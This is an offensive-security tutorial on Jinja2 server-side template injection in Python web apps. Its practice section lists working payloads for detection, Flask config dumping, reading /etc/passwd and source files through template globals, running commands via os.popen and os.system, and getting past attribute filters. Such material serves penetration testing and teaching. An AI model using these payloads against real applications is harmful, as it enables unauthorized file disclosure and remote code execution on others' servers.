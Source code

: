 ```yaml
---
title: Jinja2 Exploitation for SSTI Vulnerabilities
description: Explore Jinja2 SSTI vulnerabilities for file read and RCE in Python apps.
keywords:
- Jinja2
- SSTI
- Python
- remote code execution
- template engine
- web security
- file read
---
```


# Jinja2 Exploitation

## Context

Jinja2 is a popular template engine for Python, commonly used in web frameworks like Flask. This article focuses on leveraging Jinja2's Server-Side Template Injection (SSTI) vulnerabilities to exploit Python web applications. By the end, you'll be equipped to perform file reads and execute remote code, assuming a solid understanding of template engines, Python programming, web application architecture, and SSTI concepts.

## Theory

### Jinja2 Template Engine Internals

Jinja2 is a powerful template engine for Python that allows developers to embed logic and dynamically render web content. It processes templates using a context, which can include both static and user-supplied data. If input is not adequately sanitized, this feature can be manipulated to achieve code execution.

When attacker-controlled input is directly rendered, it may be evaluated as a Jinja2 template expression, leading to code execution vulnerabilities. This creates an attack surface ripe for exploitation.

### Accessing Python Internals via Jinja2

Jinja2 provides pathways to Python's internals through template expressions, allowing attackers to potentially access sensitive Python objects and methods. Attackers can chain attribute accessors to traverse object properties and reach sensitive components, such as `__globals__`. Crafting these chains carefully allows the circumvention of basic input filtering, such as using `[].__class__.__base__`.

### Jinja2 Remote Code Execution (RCE) Pathways

Attackers exploit Jinja2 by escalating from template variable manipulation to arbitrary code execution. This relies on accessing built-in Python functions within the template context, such as `os.popen` or `subprocess`, which offers command execution capabilities. Successful exploitation requires access to these or similar attributes.

### File Read via Jinja2 Injection

Jinja2's template context can be leveraged to read files from the server. By accessing file manipulation functions like `open()` through a Jinja2 injection, attackers can read sensitive server files. Exploiting this requires the template context to expose Python's file operation methods or allow the import of modules containing such methods.

## Practice

### Enumerate Jinja2 Injection and Context Exposure

Start by confirming the presence of a Jinja2 injection vulnerability and identifying exposed contexts:

- Use the payload `{{7*7}}` to test whether arbitrary expressions are evaluated. A return value of `49` confirms that injection is possible.
- Attempt to access configuration items with `{{config.items()}}`. This payload can reveal Flask's configuration if included within the template context.
- Enumerate available classes using `{{ [].__class__.__base__.__subclasses__() }}`, providing visibility into exploitable Python subclasses.

Outcome: Discover vulnerable injection points and assess accessible Python objects.

### File Read via Jinja2 Injection

Read server files using Jinja2's template context access:

- Execute `{{ cycler.__init__.__globals__.open('/etc/passwd').read() }}` to read the `/etc/passwd` file leveraging `open()` from `cycler`'s `__globals__`.
- Attempt to retrieve application source files with `{{ joiner.__init__.__globals__.open('app.py').read() }}` to view source code if accessible.

Outcome: Access and read sensitive data from the server's filesystem.

### Remote Code Execution via Jinja2 Injection

Achieve remote code execution by exploiting Jinja2 template injection:

- Execute system commands like `{{ cycler.__init__.__globals__.os.popen('id').read() }}` to obtain the user ID executing the application.
- Confirm execution context permissions using `{{ joiner.__init__.__globals__.os.popen('whoami').read() }}`.
- Test command execution efficacy with `{{ namespace.__init__.__globals__.os.system('touch /tmp/pwned') }}`, creating a file to prove execution.

Outcome: Gain remote code execution on the server, allowing arbitrary command execution.

### Bypass Attribute Filtering in Jinja2

Circumvent filtered attributes to aid in exploitation:

- Use `{{ [].__class__.__base__.__subclasses__() }}` to access subclass lists, permitting traversal to file or OS-related classes.
- Apply `{{ ''.__class__.__mro__[1].__subclasses__() }}` as an alternative subclass enumeration technique to bypass attribute filtering.

Outcome: Navigate around input validation restrictions to access protected Python internals.

## Tools

- **Burp Suite**
- **curl**
- **wfuzz**